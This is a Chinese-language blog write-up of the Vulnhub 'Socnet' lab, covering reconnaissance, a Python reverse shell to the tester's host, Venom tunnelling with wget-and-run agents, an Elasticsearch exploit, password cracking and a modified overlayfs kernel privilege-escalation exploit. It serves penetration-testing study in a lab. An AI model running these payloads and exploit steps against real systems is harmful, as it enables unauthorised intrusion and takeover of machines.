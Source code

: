 ﻿---
title: Chapter1_Medium_Socnet
categories:
- Network_Security
- Vulnhub
- Chapter1
tags:
- Network_Security
- Vulnhub
date: 2024-02-02 14:25:18
---


# Socnet 打靶学习记录（考研痛苦后的第一篇复健）

## 1. 过程记录

### 1.1 外围探测与信息收集

1. 同一内网下直接使用 arp-scan 来进行主机发现

2. nmap 扫描端口，发现其开放端口 5000：
    `nmap -Pn -sV 192.168.0.104 -p 1-65535`

3. Web 页面没有可以利用的点，从而进行目录扫描，最终发现 /admin 代码测试界面：
    `dirsearch -u http://192.168.0.104:5000`

4. 根据 nmap 结果，判断其是一个基于 Python 的 Web 程序，使用 Python 反弹（百度） WebShell：
    `nc -lvvp 4444 # 监听 4444 端口`

    ```python
    # Python 反弹 Shell 代码
    import socket,subprocess,os
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(("192.168.0.2",4444))
    os.dup2(s.fileno(),0)
    os.dup2(s.fileno(),1)
    os.dup2(s.fileno(),2)
    p=subprocess.call(["/bin/sh","-i"])
    ```

### 1.2 内部信息收集

1. 进入系统后进行信息收集，发现是 docker 容器。判断是否真的是 docker 容器：

    1. `ls /.dockerenv` 文件是否存在
    2. `cat /proc/1/cgroup` 文件是否都是 docker 文件
        1. `/proc/1/cgroup` 的含义
        2. 存放的都是 docker 的 hash 值
2. 查看网络，发现还有内网地址，用 shell 脚本命令可以用来暂时探测 172 内网网段：
    `for i in $(seq 1 255); do ping -c 1 172.17.0.$i; done`

### 1.3 内网穿透与扫描

1. 想进一步进行渗透的话，需要内网穿透，这里使用 Venom 进行渗透。
    kali 监听 9999 并开启 http 服务：

    ```bash
    ./admin_linux_x64 -lport 9999
    python3 -m http.server 80
    ```

2. 靶机通过 wget 下载客户端程序，赋予权限并反向链接
    `wget http://192.168.0.2（kali 的 ip）/agent_linux_x64`

3. 靶机赋予权限并反向链接
    ```bash
    chmod +x agent_linux_x64
    ./agent_linux_x64 -rhost 192.168.0.2（kali ip） -rport 9999
    ```

4. kali 进入节点中并开启 socks5 代理：
    ```bash
    show # 查看节点
    goto 1 # 进入节点 1
    socks 1080 # 监听 1080 端口
    ```

5. 使用 proxychains4 网络代理工具，设置代理端口
    `vim /etc/proxychains4.conf`
    同时别忘了最后一行改为：
    `socks5 127.0.0.1 1080`

6. 接着就是扫内网了：
    `proxychains nmap -Pn -sV -p 1-65535 172.17.0.1-3`

### 1.4 横向移动与 EXP 的使用

1. 通过浏览器设置 socks5 代理访问 172.17.0.1:5000 可知这个 ip 是 docker 对内 ip。 最终172.17.0.3 容器中的 9200 端口开放了 Elasticsearch REST API 服务，运用 metasploit 找 exp 进行攻击。
    `searchsploit Elasticsearch`

2. 先尝试第一个攻击脚本：
    ```bash
    cp /usr/share/exploitdb/exploits/linux/remote/36337.py /home/hacker # 先将 exp 拷贝出来
    # 查看 exp 发现是 python2 的脚本，因此使用 python2 执行
    python2 36337.py
    ```

3. 拿到第二个容器的 root 权限，信息收集后，看到其 passwords 文件中有用户名和密码的 hash 值，需要进行 MD5 破解。

4. 破解后，用密码通过 ssh 登录到靶机（注意这是已经不是在容器中了，而是在靶机中）：
    `ssh john@192.168.0.104（靶机 ip）`

### 1.5 提权与 EXP 的修改

1. 提权

    1. 先试试 sudo su
    2. 利用内核提权

2. 利用内核提权：
      `search linux 3.13`

3. 还是先查看 exp 的使用方法，简略阅读 exp 源码，然后执行。（这里使用的是 37292（Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation），对于 C 语言的 exp，靶机没有 gcc，kali 需要编译成 elf 文件然后传过去。

4. 传过去执行还是报错，源码中其实有段代码：
    `lib = system("gcc -fPIC -shared -o....")`
    exp 过程中使用到了 gcc，而靶机本身是没有 gcc 的，因此需要手动执行，并将文件放到靶机对应的地方。

5. 修改 exp，为：
      ![image-20240108115350035](image-20240108115350035.png)
      将其中涉及 gcc 编译生成 ofs-lib.so 共享文件的代码给删掉。

6. 接着 `locate ofs-lib.so` 查看 kali 上是否已经有该文件，没有就按照原代码那样生成一个 ofs-lib.so。

7. 编译修改后的 37292，将生成的 exp 和 ofs-lib.so 传到靶机上，同时注意要将 ofs-lib.so 放到靶机的 tmp 目录：
    ```bash
    gcc 37292.c -o exp
    cp /usr/share/metasploit-framework/data/exploits/CVE-2015-1328/ofs-lib.so . # 将 ofs-lib.so 拿过来
    # 通过 http 服务，用 wget 将 exp 和 ofs-lib.so 传到靶机的 /tmp 上
    # 靶机执行：
    chmod +x exp
    ./exp
    ```

    PS：[高版本下 kali gcc 的 glibc 指定版本的编译问题](#2.3 高版本下 kali gcc 的 glibc 指定版本的编译问题（执行 elf 文件时报错：version `GLIBC_2.34‘ not found）)

## 2. 知识点总结

### 2.1 一些细节

1. 同一内网下 arp 的扫描要更快。
2. docker 容器的判断。
3. Venom 内网穿透工具的使用
4. 每次使用 EXP 之前尽量大概浏览一下 EXP 的源码

### 2.2 简单总结一下渗透流程

1. 扫端口和服务，站点的信息收集
2. 访问页面查看利用点、路径爆破
3. 内网穿透与扫描，横向移动与容器逃脱
4. 提权

### 2.3 高版本下 kali gcc 的 glibc 指定版本的编译问题（执行 elf 文件时报错：version `GLIBC_2.34‘ not found）

  1. 报错需要 GLIBC_2.34，那就去下载 GLIBC_2.34。

  2. 解决方法的来源：

      > https://blog.csdn.net/weixin_65527369/article/details/127973141
      >
      > https://blog.csdn.net/weixin_49764009/article/details/124970461

  3. 先下载 glibc-all-in-one 工具：
      `git clone https://github.com/matrix1001/glibc-all-in-one.git`

  4. 根据工具的 readme 来使用（要在 root 的权限下执行）：
      ```bash
      cd glibc-all-in-one/
      python3 update_list # 更新列表
      cat list 或者 old_list # 查看可以安装的 glibc 版本
      ./download 具体版本的 gblic
      ```

  5. 配置 patchelf（如果需要 kali 执行 elf 文件时需要配置，这里是靶机执行，应该可以不用安装）
      ```bash
      git clone https://github.com/NixOS/patchelf.git
      cd patchelf
      ./bootstrap.sh 
      ./configure
      make
      make check
      sudo make install
      ```

  6. kali 指定 glibc 版本并编译 poc：
      ```bash
      gcc -Wl,-rpath="/tmp/exp_package/2.34-0ubuntu3_amd64/",-dynamic-linker="/tmp/exp_package/2.34-0ubuntu3_amd64/ld-linux-x86-64.so.2" -s 37292.c -o exp # 注意没有空格，-rpath 和 -dynamic-linker 之间不能有空格！
      ```

  7. 注意编译链接 so 的路径是绝对路径，因此靶机上也要有相应的文件路径：
      ```bash
      # 靶机上
      mkdir /tmp/exp_package # 要求 so 文件路径保持一致
      cd /tmp/exp_package
      wget -r -c -nH -np http://192.168.0.2(kali)/2.34-0ubuntu3_amd64 # 把整个文件夹都下载下来
      chmod +x -R ./2.34-0ubuntu3_amd64 # 将 glibc 所有文件的权限进行修改，不然无法执行 exp
      ```

  8. 这时再执行 exp 即可。

  9. TODO: gcc 的 `-rpath` 和 `-dynamic-linker` 应该可以使用相对路径。
